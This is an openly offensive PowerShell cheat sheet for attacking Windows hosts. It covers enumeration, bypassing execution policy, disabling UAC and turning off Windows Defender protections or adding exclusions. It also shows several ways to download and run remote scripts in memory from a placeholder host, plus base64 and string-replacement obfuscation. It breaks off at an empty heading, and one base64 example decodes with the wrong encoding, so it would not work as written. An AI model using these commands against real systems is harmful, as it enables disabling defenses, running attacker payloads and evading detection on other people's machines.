 # Offensive PowerShell
  
### General PowerShell  
  
##### Cmdlet Help  
`Get-Help <CMDLET>`  
  
##### Code Injection - Invoke-Expression  
`$<STRING> = 'Write-Output "Test text!"'`  
`Invoke-Expression $<STRING>`  
  
### Domain Enumeration
  
### Local Enumeration
  
##### List all running processes  
`Get-Process`  
  
##### Get Current Computer Information  
`Get-ComputerInfo -Property CsName,WindowsVersion,WindowsBuildLabEx,WindowsEditionId,OsArchitecture,CsProcessors,CsTotalPhysicalMemory`  
  
##### Get Network Interfaces Information  
`Get-NetAdapter`  
`Get-NetIPAddress`  
`Get-NetIPConfiguration`  
  
##### Get Local Users Information  
`Get-LocalUser | Select-Object Name,SID,Enabled,LastLogon,Created,Modified`  
  
##### Get Local Groups Information  
`Get-LocalGroup`  
`Get-LocalGroupMember -Group <GROUP NAME>`  
  
### Execution Policy  
  
##### Execution Policy Information  
`Get-ExecutionPolicy -List`  
  
##### Allow unsigned scripts execution for the current user  
`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`  
`powershell -ep bypass`  
  
### UAC
  
##### Get UAC Configuration  
`Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" | Select-Object -Property EnableLUA,ConsentPromptBehaviorAdmin`  
(EnableLUA = UAC [0 = False, 1 = True], ConsentPromptBehaviorAdmin = Prompt Behavior [0-5])  
  
##### Disable UAC (requires admin)  
`cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"`  
  
### AV / Firewall  
  
##### Get Firewall Information  
` Get-NetFirewallProfile`  
  
##### Get Windows Defender Status  
`Get-MpComputerStatus | Select AntivirusEnabled,RealTimeProtectionEnabled,IoavProtectionEnabled,AntispywareEnabled,IsTamperProtected`  
`Get-MpPreference` (some items require admin access to display information)  
  
##### List other AV Products  
`Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`  
`'0x{0:x}' -f <ProductState>`  (10 from the 4th number position = on)  

##### Disables realtime monitoring (requires admin)  
`Set-MpPreference -DisableRealtimeMonitoring $true`  
  
##### Disables scanning for downloaded files or attachments (requires admin)  
`Set-MpPreference -DisableIOAVProtection $true`  
  
##### Disable behaviour monitoring (requires admin)  
`Set-MPPreference -DisableBehaviourMonitoring $true`  
  
##### Make exclusion for a certain folder (requires admin)  
`Add-MpPreference -ExclusionPath "C:\Windows\Temp"`  
  
##### Disables cloud detection (requires admin)  
`Set-MPPreference -DisableBlockAtFirstSeen $true`  
  
##### Disables scanning of .pst and other email formats (requires admin)  
`Set-MPPreference -DisableEmailScanning $true`  
  
##### Disables script scanning during malware scans (requires admin)  
`Set-MPPReference -DisableScriptScanning $true`  
  
##### Exclude files by extension (requires admin)  
`Set-MpPreference -ExclusionExtension "ps1"`  
  
### Remote Code Execution  
  
##### Invoke-Command  
`$computer = "<COMPUTER>"`  
`$creds = Get-Credential`  
`$script = { Write-Output "Test text!" }`  
`Invoke-Command -ComputerName $computer -Credential $creds -ScriptBlock $script`  
  
##### Invoke-RestMethod (Download and run remote scripts)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
  
##### Start-Process (open a new PS instance and run a downloaded script - useful to bypass execution policies)  
`$url = "https://site.com/script.ps1"`  
`Invoke-WebRequest -Uri $url -OutFile "script.ps1"`  
`Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File script.ps1"`  
  
##### IEX = Invoke-Expression (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`IEX (New-Object System.Net.WebClient).DownloadString($url)`  
  
##### Invoke-WebRequest (run script from memory)  
`$url = "https://site.com/script.ps1`  
`$script = Invoke-WebRequest -Uri $url -UseBasicParsing`  
`Invoke-Expression $script.Content`  
  
##### Invoke-RestMethod (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
  
##### BitsTransfer (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`Import-Module BitsTransfer`  
`Start-BitsTransfer -Source $url -Destination "script.ps1"`  
`Invoke-Expression -Command (Get-Content -Path "script.ps1" -Raw)`  
  
##### Code Compression / Decompression (run script from memory)  
`$url = "https://site.com/script.ps1.gz"`  
`$compressed = (New-Object System.Net.WebClient).DownloadData($url)`  
`$stream = New-Object IO.MemoryStream`  
`$stream.Write($compressed, 0, $compressed.Length)`  
`$stream.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null`  
`$gzip = New-Object IO.Compression.GzipStream($stream,[IO.Compression.CompressionMode]::Decompress)`  
`$reader = New-Object IO.StreamReader($gzip)`  
`$script = $reader.ReadToEnd()`  
`Invoke-Expression $script`  

### Code Obfuscation
  
##### Base64 Decoding  
`$encoded = "V3JpdGUtT3V0cHV0ICJUZXN0IHRleHQi"`  
`$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))`  
`$decoded`  
  
##### Characters Replacement  
`$obfuscated = "abcdef-ghijkl 'Test text'"`  
`$command = $obfuscated -replace 'abcdef', 'Write' -replace 'ghijkl', 'Output'`  
`$command`  
`Invoke-Expression $command`  
  
##### Inline Scripts  
`iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("V3JpdGUtT3V0cHV0ICJUZXN0IHRleHQi")))`  
  
##### Function Renaming  
